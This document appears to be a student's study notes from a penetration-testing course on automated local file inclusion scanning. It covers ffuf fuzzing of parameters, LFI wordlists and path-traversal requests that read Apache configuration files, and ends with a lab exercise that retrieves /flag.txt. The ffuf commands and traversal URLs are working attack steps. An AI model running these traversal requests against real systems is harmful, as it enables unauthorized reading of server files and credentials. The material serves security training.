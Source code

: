 # Automated Scanning
> It is essential to understand how file inclusion attacks work and how we can manually craft advanced payloads and use custom techniques to reach remote code execution. This is because in many cases, for us to exploit the vulnerability, it may require a custom payload that matches its specific configurations. Furthermore, when dealing with security measures like a WAF or a firewall, we have to apply our understanding to see how a specific payload/character is being blocked and attempt to craft a custom payload to work around it.


## Fuzzing Parameters

>The HTML forms users can use on the web application front-end tend to be properly tested and well secured against different web attacks. However, in many cases, the page may have other exposed parameters that are not linked to any HTML forms, and hence normal users would never access or unintentionally cause harm through. This is why it may be important to fuzz for exposed parameters, as they tend not to be as secure as public ones.

For example, we can fuzz the page for common `GET` parameters, as follows:

```bash
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```

**Tip:** For a more precise scan, we can limit our scan to the most popular LFI parameters found on this [link](https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters).

## LFI wordlists
>There are a number of [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) we can use for this scan. A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), as it contains various bypasses and common files, so it makes it easy to run several tests at once. We can use this wordlist to fuzz the `?language=` parameter we have been testing throughout the module, as follows:

```bash
ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 228
```

## Fuzzing Server Files
>In addition to fuzzing LFI payloads, there are different server files that may be helpful in our LFI exploitation, so it would be helpful to know where such files exist and whether we can read them. Such files include: `Server webroot path`, `server configurations file`, and `server logs`.


#### Server Webroot
>We may need to know the full server webroot path to complete our exploitation in some cases. For example, if we wanted to locate a file we uploaded, but we cannot reach its `/uploads` directory through relative paths (e.g. `../../uploads`). In such cases, we may need to figure out the server webroot path so that we can locate our uploaded files through absolute paths instead of relative paths.


To do so, we can fuzz for the `index.php` file through common webroot paths, which we can find in this [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Depending on our LFI situation, we may need to add a few back directories (e.g. `../../../../`), and then add our `index.php` afterwords.
```bash
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
```


#### Server Logs/Configurations

To do so, we may also use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, as it contains many of the server logs and configuration paths we may be interested in. If we wanted a more precise scan, we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), though they are not part of `seclists`, so we need to download them first. Let's try the Linux wordlist against our LFI vulnerability:

```bash
ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287
```
Now, we can try reading any of these files to see whether we can get their content. We will read (`/etc/apache2/apache2.conf`), as it is a known path for the apache server configuration:
```bash
 curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
```
we do get the default webroot path and the log path. However, in this case, the log path is using a global apache variable (`APACHE_LOG_DIR`), which are found in another file we saw above, which is (`/etc/apache2/envvars`), and we can read it to find the variable values:

```bash
curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/envvars

...SNIP...
export APACHE_RUN_USER=www-data
export APACHE_RUN_GROUP=www-data
# temporary state file location. This might be changed to /run in Wheezy+1
export APACHE_PID_FILE=/var/run/apache2$SUFFIX/apache2.pid
export APACHE_RUN_DIR=/var/run/apache2$SUFFIX
export APACHE_LOCK_DIR=/var/lock/apache2$SUFFIX
# Only /var/log/apache2 is handled by /etc/logrotate.d/apache2.
export APACHE_LOG_DIR=/var/log/apache2$SUFFIX
...SNIP...
```
As we can see, the (`APACHE_LOG_DIR`) variable is set to (`/var/log/apache2`), and the previous configuration told us that the log files are `/access.log` and `/error.log`, which have accessed in the previous section.

## LFI Tools
>Finally, we can utilize a number of LFI tools to automate much of the process we have been learning, which may save time in some cases, but may also miss many vulnerabilities and files we may otherwise identify through manual testing. The most common LFI tools are [LFISuite](https://github.com/D35m0nd142/LFISuite), [LFiFreak](https://github.com/OsandaMalith/LFiFreak), and [liffy](https://github.com/mzfr/liffy). We can also search GitHub for various other LFI tools and scripts, but in general, most tools perform the same tasks, with varying levels of success and accuracy.


## Exercise

**Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read /flag.txt**

First we look for a parameter using ffuf
`ffuf -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://157.245.32.224:30542/index.php?FUZZ=' -fs 2309`
![[Pasted image 20230305233438.png]]
now we run LFI-Jhaddix wordlist to test for lfi
`ffuf -w /opt/SecLists/Discovery/Web-Content/LFI-Jhaddix.txt:FUZZ -u 'http://157.245.32.224:30542/index.php?view=FUZZ' -fs 1935`
![[Pasted image 20230305233827.png]]
we got a lot of hits
![[Pasted image 20230305234003.png]]
let's now fuzz for webroot directory 
`ffuf -w /opt/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://157.245.32.224:30542/index.php?view=../../../../../../../../../../../../../../../../../../../FUZZ/index.php'`

![[Pasted image 20230305234711.png]]

found apache config file and error logs
`/index.php?view=../../../../../../../../../../../../../../../../../../../../../etc/apache2/apache2.conf`
![[Pasted image 20230305234912.png]]
getting APACHE_LOG_DIR variable value 
`/index.php?view=../../../../../../../../../../../../../../../../../../../../../etc/apache2/envvars`
![[Pasted image 20230305235511.png]]
`/var/log/apache2`
now we get the flag
![[Pasted image 20230306000736.png]]
`http://157.245.32.224:30542/index.php?view=../../../../../../../../../../../../../../../../../../../../../flag.txt`


---
Tags: #LFI #LFI-lists
Resources:
 [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)
 [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)
 [default Webroot wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) 
 [default Webroot wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)
 [logs/config wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)
 [logs/config wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)
 [LFISuite](https://github.com/D35m0nd142/LFISuite)
 [LFiFreak](https://github.com/OsandaMalith/LFiFreak)
 [liffy](https://github.com/mzfr/liffy)
  
 